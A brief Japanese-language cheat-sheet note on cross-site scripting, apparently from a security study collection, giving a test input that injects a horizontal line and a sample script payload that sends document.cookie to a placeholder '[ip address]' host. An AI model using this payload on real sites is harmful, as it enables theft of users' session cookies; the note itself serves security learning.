 # XSS

## 検証方法

`'>"><hr>`を使用して水平線を表示

## サンプル

* `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
